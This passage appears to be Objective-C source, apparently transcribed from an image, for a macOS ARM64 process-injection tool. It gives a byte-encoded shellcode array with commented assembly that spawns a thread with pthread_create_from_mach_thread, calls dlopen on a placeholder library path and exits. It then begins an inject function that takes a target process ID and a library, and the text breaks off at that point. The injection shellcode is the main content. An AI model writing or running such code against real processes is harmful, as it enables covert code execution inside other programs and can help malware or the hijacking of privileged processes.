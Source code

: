 ```objectivec
mach_msg_type_number_t dataCnt
);


#else
#include <mach/mach_vm.h>
#endif


#define STACK_SIZE 65536
#define CODE_SIZE 128


char injectedCode[] =

// "\x00\x00\x20\xd4" // BRK X0     ; // useful if you need a break :)

// Call pthread_set_self

"\xff\x83\x00\xd1" // SUB SP, SP, #0x20         ; Allocate 32 bytes of space on the stack for local variables
"\xFD\x7B\x01\xA9" // STP X29, X30, [SP, #0x10] ; Save frame pointer and link register on the stack
"\xFD\x43\x00\x91" // ADD X29, SP, #0x10        ; Set frame pointer to current stack pointer
"\xff\x43\x00\xd1" // SUB SP, SP, #0x10         ; Space for the
"\xE0\x03\x00\x91" // MOV X0, SP                ; (arg0)Store in the stack the thread struct
"\x01\x00\x80\xd2" // MOVZ X1, 0                ; X1 (arg1) = 0;
"\xA2\x00\x00\x10" // ADR X2, 0x14              ; (arg2)12bytes from here, Address where the new thread should start
"\x03\x00\x80\xd2" // MOVZ X3, 0                ; X3 (arg3) = 0;
"\x68\x01\x00\x58" // LDR X8, #44               ; load address of PTHRDCRT (pthread_create_from_mach_thread)
"\x00\x01\x3f\xd6" // BLR X8                    ; call pthread_create_from_mach_thread
"\x00\x00\x00\x14" // loop: b loop              ; loop forever

// Call dlopen with the path to the library
"\xC0\x01\x00\x10"  // ADR X0, #56  ; X0 => "LIBLIBLIB...";
"\x68\x01\x00\x58"  // LDR X8, #44 ; load DLOPEN
"\x01\x00\x80\xd2"  // MOVZ X1, 0 ; X1 = 0;
"\x29\x01\x00\x91"  // ADD   x9, x9, 0  - I left this as a nop
"\x00\x01\x3f\xd6"  // BLR X8     ; do dlopen()

// Call pthread_exit
"\xA8\x00\x00\x58"  // LDR X8, #20 ; load PTHREADEXT
"\x00\x00\x80\xd2"  // MOVZ X0, 0 ; X1 = 0;
"\x00\x01\x3f\xd6"  // BLR X8     ; do pthread_exit

"PTHRDCRT"  // <-
"PTHRDEXT"  // <-
"DLOPEN__"  // <-
"LIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIBLIB"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00"
"\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" "\x00" ;




int inject(pid_t pid, const char *lib) {

task_t remoteTask;
struct stat buf;
```